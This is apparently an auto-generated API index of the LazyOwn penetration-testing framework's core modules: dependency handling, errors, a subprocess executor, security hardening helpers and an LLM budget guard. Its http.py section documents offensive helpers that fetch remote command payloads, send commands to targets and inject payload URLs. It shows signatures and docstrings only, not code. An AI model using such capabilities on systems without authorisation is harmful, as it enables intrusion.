    ``paths.sessions_dir`` (``sessions`` unless changed).*

#### `dependencies.py`
**Path:** `core/dependencies.py`
**File Doc:** *Graceful optional-import handling for heavy third-party dependencies.  Historically ``utils.py`` imported every third-party library at module top level. A single missing package (for example ``pycryptodome`` or ``python-libnmap``) raised :class:`ImportError` before any code ran, which crashed the whole framework -- CLI, C2 and MCP server alike -- with an opaque traceback and no guidance on how to recover.  This module makes optional dependencies fail late and loudly instead of early and silently:  - :func:`optional_import` and :func:`optional_attr` return the real module or attribute when the package is installed (identical runtime behaviour), and a :class:`_DeferredImport` proxy when it is missing. The proxy raises :class:`MissingDependencyError` only when the feature is actually used, with the exact ``pip install`` command needed to fix it. - :data:`OPTIONAL_PYTHON_DEPENDENCIES` is the single source of truth for the install hint of every dependency bound lazily by ``utils.py``.  Scope: this module owns *runtime resilience* for lazily-imported Python packages only. The operator-facing preflight report (Python version, virtual environment, external binaries, certificates, SecLists) lives in :mod:`cli.doctor`, which is rendered with ``rich`` and reachable through the ``doctor`` CLI command. This module deliberately depends only on the Python standard library so that ``python3 -m core.dependencies`` keeps working as a last-resort diagnostic even when ``rich`` or ``cmd2`` themselves fail to import.*

**Classes:**
- `MissingDependencyError` (line 37) `class MissingDependencyError(ImportError)` - *Raised when an optional dependency is used but is not installed.

The error message includes the import name, the owning feature and the
exact ``pip install`` command that resolves it, so the operator never has
to map a bare ``ModuleNotFoundError`` back to a package name by hand.*
- `DependencySpec` (line 66) `class DependencySpec` - *Declarative metadata for a single optional Python dependency.

Attributes:
    import_name: The dotted import path consumed by the framework.
    pip_package: The PyPI distribution that provides ``import_name``.
    feature: Human-readable capability that the dependency unlocks.*
- `_DeferredImport` (line 101) `class _DeferredImport` - *Stand-in for a missing optional dependency.

The proxy is returned by :func:`optional_import` and :func:`optional_attr`
when the underlying package cannot be imported. Binding the proxy to a name
is safe; any attempt to actually use it (attribute access, call, iteration,
subscription, length) raises :class:`MissingDependencyError` with
installation guidance. This defers the failure from import time to first
use, so the framework still boots. The proxy is falsy so callers can
feature-detect with a plain ``if optional_dependency:`` guard.*
- `DependencyStatus` (line 253) `class DependencyStatus` - *Result of probing a single Python dependency.

Attributes:
    spec: The dependency that was probed.
    available: ``True`` when the dependency imported successfully.
    detail: Installed version when available, otherwise the import error.*
- `DependencyReport` (line 268) `class DependencyReport` - *Aggregated readiness snapshot of the lazily-imported Python packages.

Attributes:
    results: Status for every declared optional Python dependency.*

**Functions:**
- `_spec_for` (line 157) `def _spec_for(import_name, pip_package, feature)` - *Resolve the canonical spec for ``import_name``.

Looks the import name up in :data:`OPTIONAL_PYTHON_DEPENDENCIES` first so
metadata lives in exactly one place. Falls back to caller-supplied values,
then to sensible defaults, so an undeclared dependency still degrades
gracefully.

Args:
    import_name: The dotted import path being resolved.
    pip_package: Optional override for the PyPI distribution name.
    feature: Optional override for the capability description.

Returns:
    A :class:`DependencySpec` describing the dependency.*
- `optional_import` (line 183) `def optional_import(import_name)` - *Import an optional module, returning a deferred proxy when absent.

Args:
    import_name: The dotted module path to import.
    pip_package: Override for the PyPI distribution name. Ignored when
        ``import_name`` is already declared in the registry.
    feature: Override for the capability description. Ignored when
        ``import_name`` is already declared in the registry.

Returns:
    The imported module when available, otherwise a :class:`_DeferredImport`
    proxy that raises :class:`MissingDependencyError` on first use.*
- `optional_attr` (line 209) `def optional_attr(import_name, attr)` - *Import an attribute from an optional module, deferring failure.

The ``attr`` may be a plain attribute (class, function, constant) or a
submodule (for example ``AES`` in ``Crypto.Cipher``). When attribute
access fails, the function transparently retries by importing
``f"{import_name}.{attr}"`` as a submodule, mirroring the semantics of
``from {import_name} import {attr}``.

Args:
    import_name: The dotted module path to import.
    attr: The attribute or submodule to retrieve from the imported module.
    pip_package: Override for the PyPI distribution name. Ignored when
        ``import_name`` is already declared in the registry.
    feature: Override for the capability description. Ignored when
        ``import_name`` is already declared in the registry.

Returns:
    The requested attribute or submodule when available, otherwise a
    :class:`_DeferredImport` proxy that raises
    :class:`MissingDependencyError` on first use.*
- `probe_python_dependency` (line 288) `def probe_python_dependency(spec)` - *Probe a single Python dependency by importing it.

Args:
    spec: The dependency to probe.

Returns:
    A :class:`DependencyStatus` describing availability and version.*
- `collect_dependency_report` (line 312) `def collect_dependency_report()` - *Probe every declared optional Python dependency.

Returns:
    A :class:`DependencyReport` aggregating the status of all dependencies
    in :data:`OPTIONAL_PYTHON_DEPENDENCIES`.*
- `format_report` (line 323) `def format_report(report)` - *Render a :class:`DependencyReport` as an aligned, human-readable block.

Args:
    report: The report to render.
    use_color: When ``True`` wrap status markers in ANSI colour codes.

Returns:
    A multi-line string suitable for printing to a terminal.*
- `main` (line 368) `def main()` - *Print the optional-dependency report and return a process exit code.

Returns:
    ``0`` when every declared dependency is present, ``1`` otherwise. The
    non-zero code lets shell scripts gate on a clean environment.*

**Methods:**
- `__init__` (line 45) `def __init__(self, import_name, pip_package, feature)` - *Build a remediation-oriented error message.

Args:
    import_name: The dotted import path that failed (for example
        ``Crypto.Cipher``).
    pip_package: The PyPI distribution that provides ``import_name``.
    feature: Human-readable description of the capability that needs
        the dependency.*
- `__init__` (line 115) `def __init__(self, spec)` - *Store the dependency spec used to build remediation errors.

Args:
    spec: Metadata describing the missing dependency.*
- `_raise` (line 123) `def _raise(self)` - *Raise a :class:`MissingDependencyError` for the proxied dependency.

Raises:
    MissingDependencyError: Always.*
- `__getattr__` (line 132) `def __getattr__(self, _name)` - *Reject attribute access on a missing dependency.*
- `__call__` (line 136) `def __call__(self)` - *Reject calling a missing dependency.*
- `__getitem__` (line 140) `def __getitem__(self, _key)` - *Reject subscription of a missing dependency.*
- `__iter__` (line 144) `def __iter__(self)` - *Reject iteration over a missing dependency.*
- `__len__` (line 148) `def __len__(self)` - *Reject ``len()`` on a missing dependency.*
- `__bool__` (line 152) `def __bool__(self)` - *Report the dependency as absent for feature-detection checks.*
- `missing` (line 278) `def missing(self)` - *Return the optional Python dependencies that are not installed.*
- `ok` (line 283) `def ok(self)` - *Return ``True`` when every declared dependency is present.*

#### `error_advice.py`
**Path:** `core/error_advice.py`
**File Doc:** *Actionable error advice with fix command and documentation link.  Every framework error renders four lines: what failed, why it failed, the exact command that fixes it, and the documentation anchor. This replaces bare red messages that forced operators to guess the remedy.*

**Classes:**
- `ErrorAdviceConfig` (line 16) `class ErrorAdviceConfig` - *Centralized knobs for error advice rendering.*
- `ErrorAdvice` (line 27) `class ErrorAdvice` - *Structured remedy for one failure mode.*

**Functions:**
- `get_advice` (line 74) `def get_advice(key)` - *Return advice for key or None when unknown.

Args:
    key: Lookup key such as tool_not_found:nmap.

Returns:
    Matching ErrorAdvice or None.*
- `render_advice` (line 86) `def render_advice(key, config)` - *Render advice as four plain lines with explicit level tags.

Args:
    key: Lookup key.
    config: Rendering configuration.

Returns:
    Multiline string, empty when the key is unknown.*

**Methods:**
- `docs_url` (line 35) `def docs_url(self, config)` - *Return absolute documentation URL for this advice.*

#### `errors.py`
**Path:** `core/errors.py`
**File Doc:** *Error taxonomy for the LazyOwn framework.  Provides a hierarchy of exception classes with error codes, enabling structured error reporting and programmatic error handling.*

**Classes:**
- `ErrorCode` (line 10) `class ErrorCode(IntEnum)` - *Structured error codes for the LazyOwn framework.*
- `LazyOwnError` (line 58) `class LazyOwnError(Exception)` - *Base exception for all LazyOwn framework errors.*
- `ConfigError` (line 78) `class ConfigError(LazyOwnError)` - *Configuration-related errors (missing/invalid payload.json, etc.).*
- `TargetError` (line 85) `class TargetError(LazyOwnError)` - *Target connectivity or access errors.*
- `AuthError` (line 92) `class AuthError(LazyOwnError)` - *Authentication or authorisation failures.*
- `ToolError` (line 99) `class ToolError(LazyOwnError)` - *External tool execution errors.*
- `PayloadError` (line 106) `class PayloadError(LazyOwnError)` - *Payload generation or deployment errors.*
- `DatabaseError` (line 113) `class DatabaseError(LazyOwnError)` - *Database operation errors.*
- `NetworkError` (line 120) `class NetworkError(LazyOwnError)` - *Network-level errors.*
- `PermissionError` (line 127) `class PermissionError(LazyOwnError)` - *Insufficient-permission errors (wraps OS-level PermissionError).*
- `ValidationError` (line 134) `class ValidationError(LazyOwnError)` - *Input validation / sanitisation errors.*

**Methods:**
- `__init__` (line 61) `def __init__(self, message, error_code)`
- `to_dict` (line 66) `def to_dict(self)` - *Return a serialisable dict with code, type, and message.*
- `__str__` (line 74) `def __str__(self)`
- `__init__` (line 81) `def __init__(self, message, error_code)`
- `__init__` (line 88) `def __init__(self, message, error_code)`
- `__init__` (line 95) `def __init__(self, message, error_code)`
- `__init__` (line 102) `def __init__(self, message, error_code)`
- `__init__` (line 109) `def __init__(self, message, error_code)`
- `__init__` (line 116) `def __init__(self, message, error_code)`
- `__init__` (line 123) `def __init__(self, message, error_code)`
- `__init__` (line 130) `def __init__(self, message, error_code)`
- `__init__` (line 137) `def __init__(self, message, error_code)`

#### `executor.py`
**Path:** `core/executor.py`
**File Doc:** *Centralised subprocess wrapper for the LazyOwn framework.  Provides safe, logged command execution as a replacement for bare :func:`os.system` and unguarded :func:`subprocess.run` calls.  Contracts --------- 1. :func:`safe_run` executes a command via the system shell, logs the invocation, enforces a timeout, and returns a :class:`subprocess.CompletedProcess`. 2. :func:`run_shell` is a convenience wrapper that returns stdout as a string (or raises on failure). 3. Every command is logged at INFO level with the PID and exit code.  Usage ----- from core.executor import safe_run, run_shell  result = safe_run(["nmap", "-sS", target], timeout=60) if result.returncode != 0: print(result.stderr)  output = run_shell("ls -la /tmp", timeout=10)  Config keys owned: none.*

**Functions:**
- `_validate_input` (line 41) `def _validate_input(command)` - *Validate command input and return argv and loggable string.

Args:
    command: A string or list of arguments.

Returns:
    Tuple of (argv_as_list, command_str_for_logging).

Raises:
    TypeError: If command is not str or list.
    ValueError: If command is empty or contains null bytes.*
- `_validate_timeout` (line 75) `def _validate_timeout(timeout)` - *Clamp and validate timeout seconds.

Args:
    timeout: Requested timeout in seconds.

Returns:
    Validated timeout value.

Raises:
    ValueError: If timeout is outside valid range.*
- `safe_run` (line 96) `def safe_run(command)`
- `safe_run` (line 98) `def safe_run(command)`
- `safe_run` (line 101) `def safe_run(command)` - *Execute a command with logging and timeout.

List input uses ``shell=False``. String input keeps ``shell=True``
for legacy pipelines and requires caller sanitisation.

Args:
    command: A shell command string or list of argv tokens.
    timeout: Maximum execution time in seconds (1-3600, default 300).

Returns:
    A :class:`subprocess.CompletedProcess` with ``stdout`` and
    ``stderr`` captured as strings.

Raises:
    TypeError: If *command* is neither ``str`` nor ``list``.
    ValueError: If *command* is empty, contains null bytes, or timeout
        is out of range.
    subprocess.TimeoutExpired: If the command exceeds *timeout*.

Security:
    List form never touches shell. String form intentionally uses
    shell; callers must sanitise user-controlled input.
    Null-byte injection is rejected.*
- `run_shell` (line 149) `def run_shell(cmd)` - *Execute a shell command and return its stdout.

A convenient wrapper over :func:`safe_run` that raises on non-zero
exit codes.

Args:
    cmd: The shell command string to execute.
    timeout: Maximum execution time in seconds (1-3600, default 300).

Returns:
    Captured stdout with leading/trailing whitespace stripped.

Raises:
    subprocess.CalledProcessError: If the command exits with a
        non-zero return code.
    See :func:`safe_run` for other possible exceptions.

Security:
    See :func:`safe_run` security note.*

#### `hardening.py`
**Path:** `core/hardening.py`
**File Doc:** *Centralized security hardening utilities for the LazyOwn framework.  Contract: provides safe alternatives to dangerous patterns found across the codebase. Every function is a single-responsibility security control that replaces ad-hoc, vulnerable patterns with a tested, auditable path.  Invariants:  1. ``safe_subprocess_run`` never invokes a shell unless explicitly allowed and audited. 2. ``safe_clipboard_copy`` uses subprocess list-form, never os.system. 3. ``validate_sshpass_env`` sets SSHPASS env var and uses sshpass -e, never sshpass -p. 4. ``escape_html`` sanitizes all user-controlled data before HTML insertion. 5. ``safe_path_join`` prevents path traversal via os.path.realpath prefix check. 6. ``require_encryption_key`` refuses to operate with a static fallback key. 7. ``defused_xml_parse`` wraps defusedxml for safe XML parsing.*

**Classes:**
- `SecurityViolation` (line 82) `class SecurityViolation(PermissionError)` - *Raised when a security invariant is violated.*

**Functions:**
- `reject_option_injection` (line 42) `def reject_option_injection(argv)` - *Reject argument-injection payloads in argv.

Args:
    argv: Program and arguments as a sequence.
    allow_options: When False, reject any argument starting with dash.

Raises:
    SecurityViolation: If an injection pattern is detected.*
- `escape_powershell_single_quoted` (line 61) `def escape_powershell_single_quoted(value)` - *Escape a value for embedding in a PowerShell single-quoted string.

Args:
    value: Raw value that may contain quotes or metacharacters.

Returns:
    Value safe to embed between single quotes in PowerShell.*
- `terminal_env` (line 86) `def terminal_env(base)` - *Return a child environment that keeps ANSI colors on a pipe.

Tools built on termenv or rich (gum, the LazyNmap script) disable color
when their stdout is not a terminal. The framework pipes output so it can
tee it to a log, so the child would otherwise lose its colors. Forcing
CLICOLOR_FORCE and FORCE_COLOR restores them. An explicit NO_COLOR wins
over the forced values.

Args:
    base: Base environment. Defaults to ``os.environ``.
Returns:
    A new mapping safe to pass as the ``env`` argument of subprocess.*
- `safe_subprocess_run` (line 107) `def safe_subprocess_run(argv)` - *Execute a command via subprocess without shell interpretation.

Args:
    argv: Program and arguments as a sequence. Must not be empty.
    timeout: Optional wall-clock timeout in seconds.
    capture_output: Whether to capture stdout and stderr.
    reason: Free-text justification for audit logging.

Returns:
    CompletedProcess result.

Raises:
    SecurityViolation: If argv is empty or contains shell metacharacters.
    ValueError: If argv is empty.*
- `safe_clipboard_copy` (line 152) `def safe_clipboard_copy(content)` - *Copy content to system clipboard without shell interpretation.

Uses subprocess list-form with xclip or xsel. Never uses os.system.

Args:
    content: Text to copy to clipboard.

Returns:
    True if copy succeeded, False otherwise.

Raises:
    SecurityViolation: If content exceeds MAX_CLIPBOARD_CONTENT_LENGTH.*
- `build_sshpass_command` (line 191) `def build_sshpass_command(password, ssh_args)` - *Build an sshpass command using SSHPASS env var (sshpass -e).

Never uses sshpass -p which exposes passwords in process listings.

Args:
    password: The SSH password to use.
    ssh_args: Arguments to pass to ssh/scp after sshpass.
    max_password_length: Maximum allowed password length.

Returns:
    List of command arguments suitable for subprocess.run.

Raises:
    SecurityViolation: If password exceeds max_password_length or
        contains characters that could break the env var.*
- `set_sshpass_env` (line 220) `def set_sshpass_env(password)` - *Create an environment dict with SSHPASS set for sshpass -e.

Args:
    password: The SSH password.

Returns:
    Copy of os.environ with SSHPASS set.

Raises:
    SecurityViolation: If password contains null bytes.*
- `escape_html_content` (line 239) `def escape_html_content(value)` - *Escape HTML special characters to prevent XSS.

Args:
    value: Raw string that may contain HTML.

Returns:
    HTML-escaped string safe for insertion into HTML context.*
- `safe_path_join` (line 251) `def safe_path_join(base_dir, user_path)` - *Join base_dir and user_path safely, preventing path traversal.

Uses os.path.realpath to resolve symlinks and .. components, then
verifies the result starts with the allowed base directory.

Args:
    base_dir: The allowed root directory.
    user_path: User-controlled path component.

Returns:
    Resolved absolute path within base_dir.

Raises:
    SecurityViolation: If the resolved path escapes base_dir.
    ValueError: If user_path is empty or contains only separators.*
- `validate_network_cidr` (line 277) `def validate_network_cidr(cidr)` - *Validate a network CIDR notation string.

Args:
    cidr: Network address in CIDR notation (e.g. "192.168.1.0/24").

Returns:
    True if valid CIDR, False otherwise.*
- `validate_port_spec` (line 289) `def validate_port_spec(ports)` - *Validate a port specification string.

Supports comma-separated ports and ranges (e.g. "22,80,443-445").

Args:
    ports: Port specification string.

Returns:
    True if valid, False otherwise.*
- `validate_host` (line 305) `def validate_host(host)` - *Validate a hostname or IP address.

Single policy shared with the CLI gates: plain IPs, CIDR blocks
and hostnames pass, shell metacharacters fail. CIDR-only strings
are additionally accepted by the network pattern below.

Args:
    host: Hostname or IP to validate.

Returns:
    True if valid, False otherwise.*
- `require_encryption_key` (line 325) `def require_encryption_key(env_key, secret_file)` - *Require a proper encryption key; never fall back to a static default.

Args:
    env_key: Environment variable name for the secret key.
    secret_file: Optional path to a file containing the key.

Returns:
    The encryption key string.

Raises:
    SecurityViolation: If no key is configured.*
- `defused_xml_parse` (line 353) `def defused_xml_parse(source)` - *Parse XML safely using defusedxml.

Args:
    source: File path or string containing XML data.

Returns:
    Parsed XML ElementTree root element.

Raises:
    ImportError: If defusedxml is not installed.
    ValueError: If XML parsing fails.*
- `sanitize_filename` (line 375) `def sanitize_filename(filename, max_length)` - *Sanitize a filename by removing dangerous characters.

Args:
    filename: Raw filename from user input.
    max_length: Maximum filename length.

Returns:
    Sanitized filename with only safe characters.*

#### `host_policy.py`
**Path:** `core/host_policy.py`
**File Doc:** *Single source of truth for host and network shape validation.  Both the CLI UX gates (``core.validators.check_*``) and the security predicates (``core.hardening.validate_*``) used to embed their own host-matching logic, which drifted apart. Every predicate here is pure (no I/O, no console output) so presentation and security layers share one fail-closed policy: plain IPs, CIDR blocks and hostnames pass, anything with shell metacharacters fails.*

**Functions:**
- `rejects_shell_meta` (line 20) `def rejects_shell_meta(value)` - *Return True when value contains characters usable for shell injection.

Args:
    value: Raw host string to inspect.

Returns:
    True when any shell metacharacter is present.*
- `is_valid_cidr` (line 32) `def is_valid_cidr(value)` - *Check value is a valid CIDR block.

Args:
    value: Candidate CIDR string.

Returns:
    True when ``ipaddress`` accepts it as a network.*
- `is_valid_host` (line 48) `def is_valid_host(value)` - *Check value is a plain IP, CIDR, or hostname without shell metacharacters.

Args:
    value: Candidate host value of any type.

Returns:
    True for IPs, CIDR blocks and hostnames up to 253 chars.*

#### `http.py`
**Path:** `core/http.py`
**File Doc:** *HTTP and API utilities for the LazyOwn framework.  Extracted from ``utils.py`` — HTTP request builders, exploit/PoC scrapers, news feeds, and web interaction helpers.*

**Functions:**
- `generate_http_req` (line 18) `def generate_http_req(host, port, uri, custom_header, cmd)` - *Build and send an HTTP GET request.

Args:
    host: Target hostname or IP.
    port: Target port.
    uri: URI path.
    custom_header: Optional extra headers.
    cmd: Optional command to embed in the request.

Returns:
    Response text or empty string.*
- `get_banner` (line 50) `def get_banner(host, port)` - *Fetch a banner by connecting via HTTP to the given host and port.

Args:
    host: Target host.
    port: Target port.

Returns:
    Response text or empty string.*
- `get_command` (line 69) `def get_command(url, lhost)` - *Fetch a command payload from a remote URL.

Args:
    url: Full URL to fetch.
    lhost: Local host address (unused, kept for signature compat).

Returns:
    Response text or None on failure.*
- `send_command` (line 87) `def send_command(cmd, url, lhost)` - *Send a command via HTTP POST.

Args:
    cmd: Command string.
    url: Target URL.
    lhost: Local host.

Returns:
    Response text or None.*
- `exploitalert` (line 106) `def exploitalert(content)` - *Parse ExploitAlert search results HTML.

Args:
    content: Raw HTML from ExploitAlert.

Returns:
    List of ``{"title": …, "link": …}`` dicts.*
- `packetstormsecurity` (line 125) `def packetstormsecurity(content)` - *Parse Packet Storm Security search results HTML.

Args:
    content: Raw HTML from packetstormsecurity.com.

Returns:
    List of ``{"title": …, "link": …}`` dicts.*
- `nvddb` (line 143) `def nvddb(content)` - *Parse NVD JSON vulnerability feed.

Args:
    content: Raw JSON string from the NVD API.

Returns:
    List of CVE dicts.*
- `scrape_news` (line 174) `def scrape_news()` - *Scrape Hacker News top stories.

Returns:
    ``(titles, links, scores)`` tuple.*
- `display_news` (line 198) `def display_news(titles, links, scores)` - *Display scraped news in the console.

Args:
    titles: News titles.
    links: News URLs.
    scores: News scores.*
- `inject_payloads` (line 211) `def inject_payloads(urls, payload_url, request_timeout)` - *Attempt to inject a payload URL into a list of target URLs.

Args:
    urls: List of target URLs.
    payload_url: URL to inject.
    request_timeout: Timeout per request in seconds.*

#### `llm_budget.py`
**Path:** `core/llm_budget.py`
**File Doc:** *LLM budget cap and per call token counter.  The framework exposes several LLM backed entry points. The framework never enforced a daily cost cap. The module below is the single source of truth for the LLM budget contract. The module is imported by :mod:`modules.llm_factory` so every backend the factory returns is wrapped with the guard.  The contract is the wrapper refuses the call when the daily budget is exhausted or the per call token cap is exceeded. The contract never raises a non budget related exception. The contract persists the ledger to ``sessions/llm_budget.json`` so a process restart does not reset the counter inside the same calendar day.  Pricing follows the OpenAI style model where the operator declares a price per million input tokens and a price per million output tokens. The default price table covers Groq and Ollama. The Ollama prices are zero because the operator runs the model on the local host. The operator may override every price through ``payload.json``.  The module imports nothing from the LazyOwn project beyond :mod:`core.config` and :mod:`core.dependencies` so a fresh checkout can use the module without activating the framework.*

**Classes:**
- `BudgetExceeded` (line 54) `class BudgetExceeded(RuntimeError)` - *Raised when a call would breach the daily budget or the token cap.*
- `LLMBackendLike` (line 58) `class LLMBackendLike(Protocol)` - *Structural type the wrapper requires from the wrapped backend.*
- `ModelPrice` (line 69) `class ModelPrice` - *Price for a single model expressed in United States dollars per million tokens.

Attributes:
    input: Cost per million input tokens.
    output: Cost per million output tokens.*
- `BudgetConfig` (line 103) `class BudgetConfig` - *Runtime configuration for the LLM budget guard.

Attributes:
    daily_budget_usd: Maximum amount the operator allows the
        framework to spend on a single calendar day.
    per_call_token_cap: Maximum number of input tokens a single
        call may consume. The cap is a safety net that prevents a
        runaway prompt from consuming the whole budget in one shot.
    reset_at_utc: Time of day, in HH:MM format and UTC, when the
        ledger rolls over and the day counter restarts.
    model_prices: Per model price table. The keys are model
        identifiers. The values are :class:`ModelPrice` instances
        expressed in United States dollars per million tokens.
    enabled: When False the guard passes the call through without
        recording a charge. The default is True so the operator
        who configures a budget is protected by default.
    ledger_path: Absolute path of the JSON file the ledger writes.*
- `LedgerEntry` (line 132) `class LedgerEntry` - *Single charge the ledger records.

Attributes:
    model: Model identifier the wrapper recorded.
    input_tokens: Number of input tokens the wrapper counted.
    output_tokens: Number of output tokens the wrapper recorded.
    cost_usd: Dollar cost the wrapper charged for the call.
    timestamp: ISO 8601 timestamp the wrapper wrote the entry.*
- `BudgetLedger` (line 176) `class BudgetLedger` - *In memory ledger that persists the daily spend to disk.

Attributes:
    path: Absolute path of the JSON file the ledger reads on
        construction and writes after every charge.
    today: Calendar day the ledger considers the current day.
        Tests override the value to drive the day roll over.*
- `TokenEstimator` (line 268) `class TokenEstimator` - *Token counter the guard consumes.

The estimator wraps ``tiktoken`` when the dependency is available.
When ``tiktoken`` is missing the estimator falls back to a
whitespace tokeniser that still produces a deterministic count.
The fallback exists so the guard never crashes the operator who
runs the framework on a host without ``tiktoken`` installed.*
- `BudgetGuard` (line 310) `class BudgetGuard` - *Proxy that enforces the budget around a wrapped backend.

Attributes:
    config: Active runtime configuration.
    estimator: Token estimator the guard uses.
    ledger: Persistent ledger the guard updates.*
- `BudgetedBackend` (line 408) `class BudgetedBackend` - *Transparent proxy the factory returns in place of the raw backend.

Attributes:
    inner: Concrete backend the proxy delegates to.
    guard: Guard that enforces the budget.
    model: Model identifier the proxy records on every call.*

**Functions:**
- `_today_utc` (line 150) `def _today_utc(now)` - *Return the current calendar day in UTC as an ISO date.

Args:
    now: Optional override for the current time. Tests pass an
        explicit value to drive the roll over logic.
Returns:
    The calendar day as a YYYY-MM-DD string.*
- `_now_iso` (line 163) `def _now_iso(now)` - *Return the current time as an ISO 8601 UTC string.

Args:
    now: Optional override for the current time.
Returns:
    The timestamp in ISO 8601 format with explicit UTC offset.*
- `default_model_prices` (line 442) `def default_model_prices()` - *Return the default price table the guard ships with.

Returns:
    A dictionary keyed by model identifier. The values are
    :class:`ModelPrice` instances.*
- `default_sessions_dir` (line 461) `def default_sessions_dir()` - *Return the directory the ledger writes to by default.

Returns:
    Absolute path. The directory is the LazyOwn ``sessions``
    directory under the current working directory. The operator
    may override the value through the ``LAZYOWN_SESSIONS_DIR``
    environment variable.*
- `_coerce_bool` (line 476) `def _coerce_bool(value, default)` - *Coerce a payload value into a boolean.

Args:
    value: Raw value from the payload mapping.
    default: Value to return when the raw value is not a boolean.
Returns:
    The coerced boolean.*
- `_coerce_price_table` (line 496) `def _coerce_price_table(value)` - *Coerce a payload value into the price table.

Args:
    value: Raw value from the payload mapping. The value is a
        dictionary keyed by model identifier whose values are
        mappings with ``input`` and ``output`` keys.
Returns:
    The price table the guard consumes. Empty when the payload
    omits the key.*
- `_coerce_positive_float` (line 520) `def _coerce_positive_float(value, default)` - *Coerce a payload value into a non negative float.

Args:
    value: Raw value from the payload mapping.
    default: Value to return when the raw value is not a number.
Returns:
    The coerced float. Negative values are clamped to zero.*
- `_coerce_positive_int` (line 536) `def _coerce_positive_int(value, default)` - *Coerce a payload value into a non negative integer.

Args:
    value: Raw value from the payload mapping.
    default: Value to return when the raw value is not an integer.
Returns:
    The coerced integer. Negative values are clamped to zero.*
- `load_budget_config` (line 552) `def load_budget_config(payload, sessions_dir)` - *Build a BudgetConfig from a payload mapping.

Args:
    payload: Mapping derived from ``payload.json``.
    sessions_dir: Directory the ledger writes to. Defaults to the
        LazyOwn ``sessions`` directory.
Returns:
    The BudgetConfig the guard consumes.*
- `read_budget_status` (line 585) `def read_budget_status(payload, sessions_dir)` - *Return a structured snapshot of the current budget.

Args:
    payload: Mapping derived from ``payload.json``.
    sessions_dir: Directory the ledger writes to.
Returns:
    Dictionary the CLI command and the MCP tool surface to the
    operator. Keys are stable across releases.*
- `format_budget_status` (line 616) `def format_budget_status(config, ledger)` - *Render the budget status as a human readable block.

Args:
    config: Active runtime configuration.
    ledger: Ledger the operator wants to inspect.
Returns:
    Multi line text the CLI command prints. The block is plain
    text so the operator can pipe it to ``grep`` or ``awk``.*
- `_has_required_methods` (line 642) `def _has_required_methods(backend)` - *Return True when the backend exposes the three call surface methods.

Args:
    backend: Object the factory returns.
Returns:
    True when the object exposes ``generate``, ``stream_generate``,
    and ``complete``. False otherwise.*
- `wrap_backend_with_budget` (line 657) `def wrap_backend_with_budget(backend, config, estimator, model, ledger)` - *Wrap a concrete backend with a budgeted proxy.

Args:
    backend: Concrete backend the factory returns.
    config: Active runtime configuration.
    estimator: Token estimator the proxy uses.
    model: Model identifier the proxy records on every call.
    ledger: Optional ledger. The factory passes ``None`` and lets
        the guard build the default ledger.
Returns:
    The proxy the caller forwards every request through.
Raises:
    TypeError: when the backend does not expose the three call
        surface methods the proxy delegates to.*

**Methods:**
- `generate` (line 61) `def generate(self, prompt)`
- `stream_generate` (line 63) `def stream_generate(self, prompt)`
- `complete` (line 65) `def complete(self, system, user, max_tokens, temperature)`
- `from_mapping` (line 81) `def from_mapping(cls, data)` - *Build a ModelPrice from a JSON friendly mapping.

Args:
    data: Mapping that carries the ``input`` and ``output`` keys.
Returns:
    The ModelPrice the guard consumes.
Raises:
    ValueError: when the mapping is missing the required keys.*
- `_empty_state` (line 189) `def _empty_state(self)` - *Return the empty state the ledger starts from when no file exists.*
- `_load` (line 193) `def _load(self)` - *Load the ledger state from disk.

Returns:
    The parsed state dictionary. Empty state when the file
    does not exist or is malformed.*
- `_save` (line 215) `def _save(self, state)` - *Persist the ledger state to disk atomically.

Args:
    state: State dictionary the ledger serialises to JSON.*
- `_state` (line 226) `def _state(self)` - *Return the in memory state, reloading from disk when empty.*
- `record` (line 232) `def record(self, entry)` - *Append a charge to the ledger and persist the new state.

Args:
    entry: Charge the guard computed.*
- `spent_today` (line 251) `def spent_today(self)` - *Return the dollar amount the ledger charged for the current day.*
- `calls_today` (line 256) `def calls_today(self)` - *Return the number of calls the ledger recorded for the current day.*
- `reset` (line 261) `def reset(self)` - *Clear the ledger for the current day and persist the empty state.*
- `__init__` (line 278) `def __init__(self, encoding_name)`
- `_load_encoding` (line 283) `def _load_encoding(encoding_name)` - *Load the tiktoken encoding or return a fallback callable.*
- `count` (line 292) `def count(self, text)` - *Return the number of tokens the input text contains.

Args:
    text: Prompt or completion the guard measures.
Returns:
    Non negative integer count. Zero for the empty string.*
- `__init__` (line 319) `def __init__(self, config, estimator, ledger)`
- `price_for` (line 329) `def price_for(self, model)` - *Return the price the guard applies to a model identifier.

Args:
    model: Model identifier the caller asked for.
Returns:
    The configured price when the operator declared one. The
    zero price for Ollama when the model is unknown so the
    local model never charges the budget.*
- `estimate_cost` (line 343) `def estimate_cost(self, model, input_tokens, output_tokens)` - *Return the dollar cost the guard would charge for a call.

Args:
    model: Model identifier the caller asked for.
    input_tokens: Input token count the estimator reported.
    output_tokens: Output token count the caller declared.
Returns:
    Dollar cost expressed in United States dollars.*
- `estimate_and_check` (line 356) `def estimate_and_check(self, prompt, model, output_tokens)` - *Check the budget and record a charge when the call fits.

Args:
    prompt: Prompt the caller will forward to the backend.
    model: Model identifier the caller will use.
    output_tokens: Output token count the caller declares in
        advance. The guard uses the value to estimate the cost
        when the caller knows the answer length. The guard
        falls back to zero when the caller cannot predict it.
Returns:
    The LedgerEntry the guard recorded. The caller never has
    to inspect the entry. The entry exists so tests can pin
    the cost the guard charged.
Raises:
    BudgetExceeded: when the per call token cap is exceeded,
        the daily budget is exhausted, or the budget is
        disabled and the cap is zero.*
- `__init__` (line 417) `def __init__(self, inner, guard, model)`
- `generate` (line 422) `def generate(self, prompt)` - *Forward a non streaming call and record a charge.*
- `stream_generate` (line 430) `def stream_generate(self, prompt)` - *Forward a streaming call. The charge is recorded up front.*
- `complete` (line 435) `def complete(self, system, user, max_tokens, temperature)` - *Forward a role aware call. The prompt includes the system block.*

#### `logging.py`
**Path:** `core/logging.py`
